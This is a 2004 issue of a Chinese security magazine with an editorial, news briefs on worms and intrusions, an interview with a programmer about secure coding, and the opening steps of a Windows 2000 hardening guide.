在最近几年里，网络攻击技术和攻击工具有了新的发展趋势，使借助 Internet 运营业务的机构面临着前所未有的风险。本书将对网络攻击的新动向进行了分析，使读者能够认识、评估，并减少这些风险。本书没有阐述繁琐的信息安全理论，而是从应用的角度阐述了黑客最新的攻击手段和步骤，并提出了相应的预防措施和建议，可读性和实战性非常强。

本书的内容丰富新颖，主要包括扫描技术、后门入侵、黑软伪装、破解技术，以及打造自己的黑兵器等。本书适合于任何对网络安全和黑客技术感兴趣的读者，对网络管理员和系统管理员有重要的参考价值，特别是刚刚迈入黑客之门的读者。

- 第一章 扫描技术
- 第二章 网页攻击
- 第三章 后门技术
- 第四章 千变万化的黑软伪装之道
- 第五章 东赢而入 漏洞攻击
- 第六章 破解技术剖析
- 第七章 打造自己的黑兵器


## 卷首语

### 期待网络安全的春天

最喜春来百卉荣，最喜春阳百媚生。

当大地开始复苏，万物出现蓬勃的生机，你站在季节的前面看见了什么？

告诉我，亲爱的朋友，你是否看见了碧绿海洋之中的生机？你是否看见了绵延山脉之中的希望？

然而，回首刚刚过去的 2003 年，给我们的感觉是沉甸甸的，2003 年春天突如其来的非典，考验了我们的毅力，也推进了信息化的应用。但，我们很遗憾地发现，近一段时间以来，关于网络信息安全和病毒爆发的新闻频频见于报端，如 2003 年爆发的 SQL 蠕虫、微软冲击波和 Sobig.F 等烈性蠕虫，以及 2004 年 1 月底的 MyDoom 蠕虫……一个比一个危害猛烈，造成了极大的灾难；2003 年成了网络历史上成本最高的一年，由此引发了对信息安全问题的关注。

事实上，自从有了网络，安全问题就像幽灵一样如影随形而来，这也成了网络经济大发展的严重瓶颈。对此，企业最初侧重于从提升网络运行品质、确保网络安全着手，发展到今天，更多关注的是怎样防范病毒和黑客的攻击；但随着对电子商务安全的深入研究，人们逐渐认识到电子商务安全问题不仅仅是技术层面的问题，而且是一整套预防、检测和实际应对措施的完整结合，是制度层面的问题。

放眼今天，整个 IT 行业乃至全社会对于信息安全这一领域的关心程度比以往任何时候都有了大幅度提高，也正是因为世界各国政府部门和企业对信息安全问题越来越重视，信息安全已呈现巨大的商机——随着世界各国对信息安全问题的高度重视，《黑客防线》杂志将一如既往，引领潮流，迎接中国信息安全产业的发展春天。

春天离我们还很远，因为中国的网络安全事业刚刚起步，防风林还没有建造起来，经常是风沙漫天；春天离我们并不远，毕竟全球化、网络化已经成为无法阻挡的潮流，寒冬过后总会有春暖花开的一天。

拥抱春天吧，朋友，在这无限生机盎然的春意里。岁月的脚步如此轻盈，晨曦的希望如此丰硕！


## 新闻动态

### 四部门将专项治理垃圾邮件

近日从公安部获悉，公安部、教育部、信息产业部、国务院新闻办联合发出通知，在今年上半年开展互联网垃圾电子邮件专项治理工作。

公安部介绍，这次专项治理工作将从遏制传播源头、渠道上采取措施，标本兼治，开展综合治理。目前已依据反垃圾电子邮件进行规则并结合我国电子邮件运营服务特点，制定了电子邮件服务单位垃圾电子邮件清理规范。参与此次专项治理工作的各部门将各司其责，对各地互联网电子邮件服务单位开展摸底调查，组织指导电子邮件服务单位按照规范要求落实防范垃圾电子邮件传播的管理和技术措施。

### MyDoom 破坏力胜过冲击波

据瑞星统计，该病毒于 1 月 27 日开始在国内爆发，30 日、31 日两天达到病毒蔓延的高峰。截至 2 月 2 日中午 12：00 时止，瑞星共收到 48560 个用户的求救邮件，同时还受理了求救电话 4900 个，实际查明因该病毒导致邮件服务器瘫痪的企业局域网用户 20 多个。

目前三大杀毒软件厂商都已经在各自网站上提供了最新的杀毒软件供用户下载，希望能够把该病毒在国内的影响控制到最小，同时把最新变种的病毒御敌于国门之外。反病毒专家提醒用户及时升级杀毒软件或者登录网站下载免费的专杀工具，对于来历不明的电子邮件，不要轻易打开附件。而网络管理员应该尽快在邮件服务器上安装病毒防火墙。

### 海信数码赢得奥运网络安全建设

近日，国内知名网络安全厂商海信数码公司在 2008 年奥运会信息化建设的青岛分部招标当中顺利中标，全面承担该奥运项目的网络安全建设，提供包括防火墙、IDS 等在内的企业安全产品。

同时，该项目也是青岛“e 城通信息岛”的重要组成部分，作为电子政务示范城市，青岛市信息化对于建设高效全面的电子政府有着重要的示范意义，而海信数码依靠领先的安全产品和完善的电子政务安全解决方案成为建设安全型电子政府的首选伙伴。

### 入侵“剑网”黑客幡然悔悟，主动发信致歉

2 月 2 日下午，一名黑客两次闯入《剑侠情缘》网络游戏的官方网站，不仅伪装成网站管理员，盗取广大玩家的游戏帐号，还在主页上粘贴本·拉登的图像，威胁索要 5000 万剑侠币，不然就删除网站中的数据。

令人意想不到的是，这位黑客在恶作剧之后幡然悔悟，意识到自己行为的严重性并于昨天给金山公司发来了道歉信。

金山公司表示，他们已经知道该黑客是宁夏某中学的高三学生，关于此事，金山公司正在研究中，但保留对其进行起诉的权利，同时金山公司还在着手加强网站的安全建设，采用防火墙对访问 IP 和权限都做了严格限定，并采用对玩家资料采取周备份、日备份和小时备份的三级备份体系防止发生类似的黑客入侵事件。

### “小邮差”惊现第 18 个变种

近日，瑞星全球反病毒监测网截获了恶性蠕虫病毒“小邮差”的最新变种：“小邮差变种 R（Worm.Mimail.R）”。小邮差病毒在春节期间异常活跃，先后出现过 3 个不同的变种，本次发现的病毒是“小邮差”家族的第 18 个变种，也是迄今为止最厉害的一个变种。该病毒除了会通过伪装信用卡信息填写栏窃取用户信用卡资料、向外发送带毒邮件进行网络传播之外，该病毒还会在被感染电脑上建立两个安全后门，盗取用户的安全信息，给用户电脑带来持续的破坏。

反病毒专家建议：刚经过春节长假的人们，安全防范意识相对会较低，更易被病毒感染。因此广大的电脑用户要注意病毒的防范，发现电脑异常应及时采取措施，及时升级杀毒软件，并打开实时监控系统来保障电脑安全。

### 美国家实验室遭英国平常少年入侵

据英国《镜报》报道，2002 年 6 月美国费米国家实验室曾因黑客入侵部分网络被迫关闭三天。该入侵目前被证明是一位 18 岁的英国少年黑客约瑟夫·麦克尔罗伊所为。家住伍德福德格林的麦克尔罗伊周一向法庭承认，他曾在 2002 年 6 月在两周的时间内入侵了美国费米国家加速器实验室的 17 个计算机系统。但麦克尔罗伊声称，他入侵该计算机系统只是为了在该系统的计算机硬盘中贮存自己的电影和音乐文件。

法官判处麦克尔罗伊从事 200 个小时的社区义务劳动，但以入侵没有造成机密文件泄密为由，否决了美国能源部的赔偿要求。

美国能源部和英国计算机犯罪调查小组是在 2003 年 7 月通过 IP 地址后追查到了麦克尔罗伊的犯罪行为的。

### 新规范提升无线内容安全性

根据 OMA 介绍，Digital Rights Management 2.0 Enabler Release（数字版权管理 2.0 技术发布，简称 DRM 2.0 Enabler Release）提高了内容供应商在音乐曲目、影像和游戏等付费内容上的安全性。

OMA 的 DRM 工作组副主管 Willms Buhse 表示，“我们升级的技术发布加强了 OMA 内 DRM 的高度优先权，强调了在使用移动设备的时候，内容和版权保护的重要性，随着信任度和安全性的提升，将通过大量的移动接入提供的丰富内容来获得大量的盈利机会。”

根据 OMA 的网站介绍，诺基亚、摩托罗拉、索尼爱立信移动通信和西门子已经生产了使用 OMA 的 DRM 早期版本的手持设备，而爱立信和 Openware System 公司生产了使用这类技术的服务器。

### 1 月份亚洲成为全球病毒袭击重灾区

全球网络安全软件与服务领导厂商趋势科技公司公布的 1 月病毒感染分析报告与趋势指出，亚洲以 36.3% 高居 1 月份全球总感染率冠军，北美地区以 35.14% 居次席。另外，1 月份全球十大电脑病毒近半数是通过网络传播的。

据介绍，亚洲感染率第一名的病毒是维拉 PE_VALLA.A；全球感染率方面，10 个月前的老病毒 Lovegate.C 第 5 次蝉联每月全球十大感染率冠军。趋势科技全球防毒研发暨技术支持中心工作人员指出，1 月份全球十大病毒中，过半数是使用电子邮件或文件共享等网络媒介传播的。趋势科技公司表示，这有可能是黑客借此渠道随时更新病毒程序，以进一步发动下一拨攻击的前兆。

### 2004 年信息安全新趋势

即便信息安全预算在增长，并有多种技术可供选择，对于信息安全人士来说，2003 年还是令人困惑的一年。Enterprise Strategy Group 的资深分析员 Jon Oltsik 撰文表示。

他认为，与 2003 年相比，信息安全在 2004 年依旧是热点，宏观来看可能没有变化，但具体而言则会有所不同。即使 2004 年对于信息安全业来说是个好年景，但让公司重视信息安全并融入其文化依旧是个缓慢的过程，毕竟安全和业务之间存在着巨大的鸿沟。

### Windows XP 惊现安全漏洞

目前发现了 Windows XP 中存在着包含任意程序的 HTML 文件可冒充文件夹的漏洞。但其实这可能是一个危险的病毒文件伪装的，而并非真正的文件夹。

微软尚未发布该漏洞的安全信息及补丁。而现在无论如何修改设置也无法避免此漏洞。目前唯一可采取的对策就是不要轻易打开不可靠的文件夹或者文件。大家切记不要打开从不可靠的 Web 站点等处下载的文件。要当心你所下载的文件解压后看起来是文件夹，而实际上是危险文件的可能。还有一个暂时的应对办法，就是打开 Windows 的扩展显示功能，这样冒充文件夹的文件就会显示出“.folder”的扩展名，对于这样的“文件夹”，一定要万分小心。

## 将安全融入程序的核心

- 采访人物：天天安全网　风清扬
- 个人工作室：湖南易信网络信息开发工作室 EBOOY
- 个人站点：http://www.e315.com
- 最有成就感的一件事：开发的一套大型的商业系统，通过审核，并投入使用
- 人物格言：今日事，今日毕

### 程序员风清扬采访记

文／蝴蝶

很多朋友可能对我要采访的主人公了解不多，但常去国内各大安全网站转悠的朋友一定能认识他！特别是常去天天安全网的朋友，一定会注意到一个活跃的名字：风清扬！他在网上尽心为大家解决各种网络安全方面的问题，给广大网友带来了很好的印象，他，是比较随和的吧？……

其实，风清扬是一个集高级网络安全知识和丰富程序设计技巧于一身的人！目前，他正在把自己的工作室发展成为公司，准备电子商务类大型网站的开发工作，这其间还包括网络工程制作、网络安全维护（软件&硬件）等一系列工作，所以，在他如此忙碌的时候能给我们提供这样一个采访机会，可谓十分难得。

我最早遇到风清扬也是在天天安全网上，那是在很早以前，时间已经模糊了，如今再见风清扬，他除了在技术上得到大的提高之外，还给我一种不变的感觉：谦逊而稳重！

### 高级 JSP 开发

蝴蝶：很高兴能有这么一个机会和你对话。你是从什么时候学习编程语言的呢？

风清扬：大概在 5 年前吧，当时是学习简单的 HTML，后来就陆续学习了一些，像 JS、ASP、JSP、JAVA 等等，这些语言都是触类旁通的，刚接触的时候比较陌生，逐渐掌握之后就可以轻松运用了。

蝴蝶：那这么多语言，你不会都同时运用吧？

风清扬：当然不是。我的工作重点在程序开发上，以 JSP 为主，我的工作室开发出多套程序，包括商业中介程序、信息交流程序、论坛程序等等，为了考虑其高效和安全，所有的程序都是用 JSP 写的，数据安全性很高。毕竟现在大家都在开发更安全的主流程序嘛，所以我对 JSP 是越来越感兴趣。

### 谨防千里之堤，溃于蚁穴

蝴蝶：可以说说你对网上安全的看法吗？你觉得现在的网络安全体现在哪些方面？

风清扬：网络安全，我个人的看法是用户的安全意识不高，这个用户所涵盖的范围会大一些，不只是一般的 PC 用户，甚至于我们的服务器管理员、网络管理员对安全的认识也不够。往往“黑客”捕捉的就是用户对安全的疏忽和对细节问题的不留意。这也就造成了大问题暂时没有，小问题接二连三，最终使得自己损失严重——也就是说，千里之堤，溃于蚁穴！

蝴蝶：你对安全很有见地，那么对于加大用户的水平和安全意识，你的感受是什么？

风清扬：用户的安全意识不高，这个用户所涵盖的范围会大一些，不只是一般的 PC 用户，甚至于我们的服务器管理员、网络管理员对安全的认识也不够。加强安全意识，我觉得这一点是最该普及的。我做过一年的网管，感觉要做好一个网络管理，没有一个好的技术基础是不行的，尤其是最最基础的知识就显得至关重要。大问题往往都是从小问题引发的。往往“黑客”捕捉的就是用户对安全的疏忽和对细节问题的不留意。这也就造成了大问题暂时没有，小问题接二连三，最终使得自己损失严重。

## 把安全融入程序核心

蝴蝶：今年是注入漏洞十分流行的时候，你对此有什么见解吗？

风清扬：我们必须把安全融入程序，才是解决安全问题的根本。

蝴蝶：你有这方面的经验或教训吗？

风清扬：有的。当初，我写出的一个程序因为一个小错误而使得几个月的心血白费了，当然，这个错误也牵扯到安全问题。想做好一件事，没有百倍的细心是做不成的，当时几乎想放弃掉，但还是坚持下来了，并最后获得了成功！

蝴蝶：这么严重！是什么漏洞，可以详细透露吗？

风清扬：不不不，这种问题应该不算是漏洞，属于写程序人的无知了。那是我自己写的一套程序，在后台和前台的接口处，我做了一个权限检查，当时感觉没问题，但在使用后才发现，就是这个权限检查会使一般用户通过一个简单的数据改动得到管理权限！由于很多文件都是采用这个办法，所以使得整套程序失败了，最后整个程序放弃了，这也是我最受打击的一个事件。

蝴蝶：这对于你以后的工作肯定有很大的影响啊。

风清扬：当然。我对程序看得很重，对安全看得更重！这次打击从此给我带来了无限的驱使力，我努力使自己的程序做到代码的完善。

蝴蝶：我知道，在你提倡的“安全融入程序”的思想带动下，你的工作室创造了许多成绩：工作室开发出多套程序，包括商业中介程序、信息交流程序、论坛程序等等——

风清扬：是的，目前我为自己工作，在湖南的某工作室，负责程序开发和安检。我所说的安检是指：服务器和程序安全两个方面。为了考虑其高效和安全，所有的程序都是用 JSP 写的，数据安全性很高。只要涉及到前台的信息交流，安全性就会占到很大的比重！

## 我的经验：自立

蝴蝶：能说说你最佩服的人吗？

风清扬：举其中之一来说吧，天天安全网的笨马，毕竟和他比较近地接触过，对技术的认真、负责是我最佩服的。呵呵，我佩服的人太多了，数不上来！当然，光佩服不行，要超越他们……“俺也在努力！”

蝴蝶：可以说说你最近在忙什么吗？

风清扬：我不久前开发了一套大型的商业系统，通过审核，并投入使用。创造是最有成就感的。目前我们工作室为本地的政府部门编制了一套外侨信息中心的专用程序，近月内刚准备大面积投入的一个学籍管理系统，这个管理系统由于投入很广，所以在安全性上下的功夫很大，紧接着的就是申请专利，然后发行。

蝴蝶：很了不起！网上生活那么多年，你觉得最重要的是什么呢？

风清扬：自立！这也是我要对《黑客防线》的读者朋友们说的话！“自立”，没有任何人有义务去帮助你，独立思考、独立解决问题才是最根本的办法！我也希望朋友们能以自立的精神开拓自己的网络世界！

短暂的采访结束了。由于职业的原因，风清扬不肯在广大读者面前透露自己的真实姓名，这也是我们都能够理解的。我们知道，做程序员不容易，做网络安全更不容易，而在程序员和网络安全上两者并驾齐驱的人是最辛苦的，这需要缜密的思维和开拓型的头脑——而且他做得很好！这些普通人都没有做到的，风清扬都做到了，而且做得还有声有色，他正在成功的大道上大步迈进……努力吧，所有关心黑防的朋友们！

## Windows 2000



## 系统加固不求人

刘流：据国内一些网络安全研究机构的资料，国内大部分的 ISP、ICP、IT 公司、政府、教育和科研机构等都没有对网络安全投入必要的人力和物力；很多重要站点的管理员都是 Internet 的新手，一些操作系统在那些有经验的系统管理员的配置下尚且有缺陷，在这些新手的操作中就更是漏洞百出。很多服务器至少有 3 种以上的漏洞可以使入侵者获取系统的最高控制权。在众多的网络入侵事件中，很大一部分原因是管理员本身没有做好服务器安全的合理配置。本专题从 Windows 2000 实战角度出发，特约安全公司技术人员为你具体详细讲解安全系统的加固过程，相信这无论是对个人用户还是对于国内大多数管理员来说，都是非常有意义的。

文／图腾红春

Windows 2000 系列是微软在当前网络操作系统市场上的主流产品，虽然现在有了一脉相承的 Windows 2003，但 Windows 2000 仍然是当前最主要采用的商用系统之一。它包括用作服务器的 Server 版、Advanced Server 版和 DataCenter Server 版；以及用于个人工作站的 Professional 版。无论对于企业还是个人使用来说，Windows 2000 都提供了完整的产品线，在稳定性上也大大超越了前代的 Windows 操作系统，达到了相当的高度。Windows 2000 系列产品在网络时代的操作系统领域被广泛地使用，影响范围很大，图形界面的工作方式使其具有很好的易用性。作为服务器采用的 Windows 的 Server 版本与许多办公室工作人员每天使用的 Windows 用户界面类似，而安装上并无太多差别。其中的许多部分都是自动配置和自动的，其相对于类 UNIX 操作系统的安装启动方式更加简易得多。

而在安全性上，采用 NTFS（NT 文件系统）的 Windows 2000 拥有不亚于 UNIX 系统的严格的访问控制权限，实际上它的文件系统安全性完全照搬了 UNIX 的设计，文件拥有类似 UNIX 的属性，可以由管理员制定权限来执行。为了更安全地在域内工作，Windows 2000 引入了 Kerberos V5 登录认证标准，这是 UNIX 类操作系统也广泛使用的安全登录认证标准，微软使 Windows 2000 也可以兼容对应 UNIX 服务环境的网络认证。微软也提供了新颖的智能卡技术，在使用者的身份识别方式上提供了更多的安全选择。其对应的操作系统在 NTFS 的分区环境下还提供了文件加密等安全功能。微软的 Windows 2000 安全性还包括提供日志审核，还有如文件保护功能、网络层安全性（IPSec）支持等等。

微软的 Windows 历来广受怀疑，媒体总是对 Windows 系列的操作系统安全性加以指责，对 Windows 2000 也是如此。实际上，微软的安全性问题主要来自于 3 点：

- 默认安装状态下更加考虑兼容性，即与过去微软的操作系统网络工作模式的兼容要求；
- 大量内置组件不可靠的安全性；
- 广泛的装机量。

其他“安全”的操作系统在第一点上比微软出色。另外的就是符合了开放源代码的要求，可以更加快捷地修补第二点的漏洞。至于第三点，则导致人们乐意报道微软的漏洞缺陷，因为使用范围的广泛，一旦出现未能及时弥补的漏洞，就可能导致大范围的受损。微软自 Windows 2000 以后已经大大改进了安全性，媒体在这一方面的报道是比较夸大的，考虑微软产品的易于使用特性，Windows 系列还是我们最多使用的操作系统。

> **注：**更多考虑到软件进化的未来方向，掌握在大型企业手中的具有极高市场占有率的操作系统并非有益之举，笔者对于开源运动深具好评，也认为它将是操作系统行业未来的指南；但是相对于本国较为落后的计算机系统应用状况，到底有多少人具有可以自由配置和使用计算机系统的能力？在这一实际问题未能解决的今天，仅仅指责操作系统厂商垄断是无益的。作为一个计算机系统厂商，微软在 Windows 2000 及其后继系列 NT 内核的操作系统投入了极大精力，对系统的安全性弥补有很大进步；但需要使用者合理地配置，这样才能得到更大的安全性。

网络应用环境是开放而危险的，计算机紧急响应小组协调中心（CERT-CC）报告的安全性事故的数量几乎是在逐年直线上升（有图为证明），现在更加严重得多。可以肯定，在所有的事故中仍然有相当多的部分未能报告给 CERT-CC。

要保障我们的系统在网络应用环境中的安全，需要对我们的系统进行合理的安全配置以消弭可能存在的缺陷。我们一般通过通常称为“加固”（Hardening）的安全配置过程来保障主机安全。

“加固”的终极目标是：配置并构建一个安全的“堡垒主机”（Bastion Host）系统。

“堡垒主机”这个词是有专门含义的概念，最初由美国人 Marcus J. Ranum 在 *Thinking About Firewalls V2.0: Beyond Perimeter Security* 一书中提出。他提出堡垒主机“是一个系统，作为网络安全的一个关键点，它由防火墙管理员来标识”，“堡垒主机需要格外地注意自己的安全性，需要定期地审核，并拥有经过修改的软件”。通常，堡垒主机是一台独立应用的主机（这有点类似单用户的单机操作），它有极大的价值，可能蕴含着用户的敏感信息，经常提供重要的网络服务；大部分时候它被防火墙保护，有的则直接裸露在外部网络中。其所承担的服务大都极其重要，如银行、政府单位用来实现业务、发布信息的平台。“堡垒主机”的工作特性要求达到高安全性。

在 Windows 2000 当中，通过谨慎合理的配置，我们可以获得足够的安全性，足够媲美号称非常安全的 UNIX 系列操作系统，达到“堡垒主机”的安全高度。

## 加固过程

构建一个“堡垒主机”的过程建议从安装一个新系统开始，如果你可以保证满足“安装一个最小化的操作系统和一个最新的服务包”（见 1-001、002 的要求），也可以进行下去。安装配置前后都有许多注意事项，我们将详细列举出来。希望读者可以更容易地应用到自己的 Windows 2000 中。“加固”过程为保证安全性，通常只使用系统提供的工具来进行，不需要其他的第三方工具。另外，需要提醒你的是：作为网络安全的综合体，“加固”仅仅是其中的一部分，属于系统安全范畴；对于有更全面安全需求的人们，安全问题总是存在的。专业厂商往往拥有总体解决方案，可以解决的问题也更多；咨询并采用他们的建议和服务，可更加确保用户的安全价值。

有关“加固”的简单过程描述：

- 安装一个最小化的操作系统和一个最新的服务包；
- 安装你要在主机上运行的应用程序并配置；
- 重新申请服务包，安装最新的安全补丁；
- 删除或者禁用操作系统中不必要的组件和服务；
- 加固操作系统的其他部分；
- 为文件和其他对象设置严格的访问控制权限。

下面详细地解释如何具体执行这些步骤（列表）：

| 项目 | 内容 |
|---|---|
| 项目编号 | 1-001 |
| 项目名称 | 安装最小化操作系统注意事项 |
| 项目描述 | 在加固项目开始时必须确保的事项，这也是加固得以进行的安全基础 |
| 操作步骤 | 1. 从一个干净的系统开始。在安装之前，确定磁盘原有的数据都已经删除干净，磁盘完好无损。<br>2. 保证系统安装软件的来源完整可靠。这是为了防止被恶意修改为后门程序的安装程序，盗版的流行往往导致这种可能性大增。<br>3. 保证你的系统在安装和配置过程中不与一个公共网络相连，如果必须要由网络安装，要确保主机是在一个独立可信的网段中。<br>4. 不要在主机上安装多系统启动，防止经由其他系统启动控制造成的破坏。<br>5. 尽量安装 Windows 2000 的美国英语版本。这是因为微软总是最先发布美国英语版的安全补丁。<br>6. 只使用 NTFS 分区作为文件系统分区。NTFS 是真正的日志性文件系统，使用日志和检查点信息，即使在系统崩溃或电源故障时也能保证文件系统的一致性；此外，必须使用 NTFS 才能对文件使用 DACL（Discretionary Access Control List，任意访问控制），达到访问控制安全的目的。<br>7. 只安装 TCP/IP 协议，不要安装任何其他的网络协议（如在安装过程中出现“网络设置”选项，即网卡为 Windows 2000 安装时认出，另作设置，详见如下 1-009 项）。<br>8. 在选择安装程序时不要选择安装任何额外的程序和服务，如图 1 所示。<br>9. 如果安装了服务器版本的 Windows 2000，要把它配置成“Standalone（独立服务器）”模式。为了安全方面的原因，堡垒主机最好不要参与域环境。 |
| 备注 | 第 5 项并不强制使用；确保你的系统遵守以上规则，这是良好的开始。 |



| 项目 | 内容 |
|---|---|
| 项目编号 | 1-002 |
| 项目名称 | 安装最新的服务包补丁程序 |
| 项目描述 | 给你的操作系统按照不同语种选择补丁包程序 Service Pack。Windows 2000 最新的 Service Pack 为 SP4，Service Pack 4 的大小约为 120 多兆。 |
| 操作步骤 | 从可信的渠道得到微软的服务包安装程序的发布，如从微软站点下载并安装。 |
| 备注 | 也有其他的渠道可提供 SP 包，但要小心确认来源正当无修改。一般黑防的配套光盘中有。 |

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-003 |
| 项目名称 | 安装和配置应用程序及服务程序 |
| 项目描述 | 在你的系统上安装配置正常使用的应用程序（包括更新你的 IE 浏览器版本），在你的系统上安装配置你选择好的用来提供网络服务的程序（如微软使用的 Web 服务器 IIS）。 |
| 操作步骤 | 1. 不要安装任何多余的程序。“堡垒主机”一般用作提供网络服务，通常不是个人工作站，所以不需要安装任何必须服务以外的程序。<br>2. 小心安装采用的服务和应用程序，尽量选择最新的安装版本，这通常可以保证没有近期发布的程序漏洞。<br>3. 通常不要在“堡垒主机”上运行系统提供的应用程序访问网络，Windows 2000 的程序漏洞有时会遭恶意利用。<br>4. 为安全起见，甚至建议将系统附件中的所有应用程序（除 Notepad 和 WordPad 等文本编辑器）删除。 |
| 备注 | 了解你要安装的程序是否存在已知缺陷，可以咨询安全专家的意见。<br>如 IE、Outlook、Windows Media Player 等微软提供的程序可能含有漏洞。<br>注意：在高安全性要求的应用环境中，不要安装 MS-Office 或任何开发工具。<br>注：可用执行程序越少越好，可参见 1-012 中第 2 项操作。 |

| 字段 | 内容 |
|---|---|
| 项目编号 | 1-004 |
| 项目名称 | 重新申请服务包，安装最新的安全补丁 |
| 项目描述 | 微软提供了 Windows Update 程序（在你安装后的“开始”菜单最上面的那个程序），可以直接连接到微软的网站获取更新的 Hotfix，即大的服务包之后发布的安全补丁程序，通常用来弥补近期发现的安全漏洞。 |
| 操作步骤 | 如图 2 所示，操作“Windows Update”程序打开微软升级站点页面并升级。 |
| 备注 | 通常必须安装“关键更新”和 Service Pack 选项中的更新。<br>通常第一次进入该界面要先安装“Microsoft Update”程序，如未能正常进入该界面可修改系统的 DNS 服务器设置。 |

